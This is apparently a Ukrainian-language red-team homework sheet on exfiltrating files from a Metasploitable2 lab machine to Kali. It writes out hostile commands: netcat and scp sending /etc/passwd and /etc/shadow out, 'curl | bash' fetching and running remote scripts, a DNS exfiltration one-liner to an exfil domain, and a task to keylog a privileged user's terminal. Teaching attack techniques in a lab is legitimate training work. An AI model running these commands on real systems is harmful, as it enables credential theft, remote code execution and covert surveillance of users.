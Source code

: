 
# 🛡️ Lab 7: Домашнє Завдання: Ексфільтрація та передача даних (Red Team практикум)

Цей блок домашніх завдань орієнтований на практичне відпрацювання технік ексфільтрації файлів із Metasploitable2 або інших цільових машин у контрольованих середовищах. Кожне завдання **має бути виконане, задокументоване** і містити:

---

## 📦 Завдання 1: Ексфільтрація через Netcat

**Мета:** Передати файл `/etc/passwd` з Metasploitable2 на Kali через Netcat.

🔹 Команди:
- Kali:
  ```bash
  nc -lvnp 9000 > passwd_copy
  ```
- Metasploitable2:
  ```bash
  nc <kali_ip> 9000 < /etc/passwd
  ```

✅ *Надати підтвердження, що файл отримано.*

---

## 🌐 Завдання 2: Передача через `curl | bash`

**Мета:** Завантажити скрипт з Kali і виконати його на Metasploitable2 без збереження.

🔹 Kali:
```bash
python3 -m http.server 80
```

🔹 Metasploitable2:
```bash
curl http://<kali_ip>/payload.sh | bash
```

✅ *Вивід виконання скрипта.*

---

## 🔐 Завдання 3: Використання SCP

**Мета:** Передати файл з Metasploitable2 на Kali або навпаки.

🔹 З таргета:
```bash
scp /etc/shadow kali@<kali_ip>:/tmp/shadow_copy
```

✅ *Підтвердити копіювання. Якщо не вдалося — описати чому (SSH, firewall, auth).*

---

## 🧬 Завдання 4: Base64 передача вручну

**Мета:** Кодувати файл у base64 на Kali, вручну вставити на Metasploitable2, відновити.

🔹 Kali:
```bash
base64 -w0 test.sh
```

🔹 Metasploitable2:
```bash
echo "<base64_string>" > file.b64
base64 -d file.b64 > restored.sh
chmod +x restored.sh
```

✅ *Показати, що файл працює.*

---

## 🧠 Завдання 5: Якщо немає curl/wget — використання Bash TCP `/dev/tcp`

**Мета:** Отримати скрипт без curl/wget через `bash`.

🔹 Bash-функція:
```bash
function __wget() {
    ...
}
```

🔹 Команда:
```bash
__wget http://<kali_ip>/file.sh | bash
```

✅ *Якщо не працює — пояснити.*

---

## 🌐 Завдання 6: Ексфільтрація через DNS (capture-only)

**Мета:** Передати дані з Metasploitable2 у вигляді DNS-запитів і перехопити на Kali.

🔹 Kali:
```bash
tcpdump -i any port 53 -w dnslog.pcap
```

🔹 Metasploitable2:
```bash
# Python-скрипт, що генерує DNS-запити з даними
```

✅ *Витягти дані з pcap через tshark або вручну.*

---

## 🚀 Завдання 7: Передача через `croc`

**Мета:** Встановити `croc`, передати файл `shadow`, отримати на Kali.

🔹 Metasploitable2:
```bash
curl https://getcroc.schollz.com | bash
croc send /etc/shadow
```

🔹 Kali:
```bash
croc <code>
```

✅ *Файл повинен дійти повністю.*

---

## 📤 Завдання 8: Власний upload-сервер + передача через curl з авторизацією

**Мета:** Завантажити файл на сервер з Basic Auth.

🔹 Kali:
```bash
python3 upload_server.py  # Flask сервер з Basic Auth
```

🔹 Metasploitable2:
```bash
curl -u user:pass -F "files=@/etc/hostname" http://<kali_ip>:8000/upload
```

✅ *Файл повинен з’явитись на сервері.*

---

## 🔑 Завдання 9: Реалізувати техніку Keylogger

**Мета:** Отримати команди які вводитиме адміністратор msfadmin або kali

🔹 Отримати PID із терміналу не на пряму, а використовуючи ексфільтрацію даних або інший спосіб, що дозволить отримати PID привілейованого користувача

```bash
ps aux | grep -E 'bash|zsh' | grep -v $$ | grep -v grep | base64 | tr -d '\\n' | fold -w50 | while read x; do host $x.exfil.yourdomain.com; done

```
🔹 Підключитись до цього PID та отримати дані які  вводить привілейований користувач.

🔹 Спробувати різні методи отримання даних, як збереження у файл і отримання через nc так і якісь автоматизовані техніки.

✅ *Отримано команди із терміналу*

---

## 📌 Формат звіту:

Кожне завдання оформити у вигляді:

```
### Завдання X: Назва
✅ Вивід / скріншот
🧠 Як вирішували
❌ Якщо не спрацювало — чому
🔁 Інші варіанти (опціонально)
```

---

Успіхів! 👾
